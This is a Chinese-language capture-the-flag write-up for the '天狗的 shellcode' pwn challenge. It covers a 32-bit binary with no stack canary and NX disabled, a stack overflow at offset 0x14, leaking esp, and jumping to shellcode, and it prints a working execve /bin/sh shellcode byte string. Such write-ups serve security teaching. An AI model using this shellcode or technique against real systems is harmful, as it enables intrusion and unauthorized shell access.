 # 天狗的 shellcode

## 题目描述

*Challenge and description by MiaoTony.*

天狗说这是个简单题，随便分析一下就能出，写写 shellcode 就好。


## 程序环境与保护方式

```
# file pwn
pwn: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped

# checksec pwn
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

## 考点

shellcode


## 题目解析

1. 检查程序保护方式.

    ![](./img/1.png)

2. read调用(mov al,3;int 80;)存在栈溢出,返回地址偏移为0x14.

    ![](./img/2.png)

3. 返回地址后即为之前push的esp，返回地址溢出为0x8048087再次打印栈内容leak出esp，再次栈溢出跳到栈上执行shellcode. 
    利用80h中断中的sys_execve：`\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80`.

脚本参考: [exp.py](./exp.py)
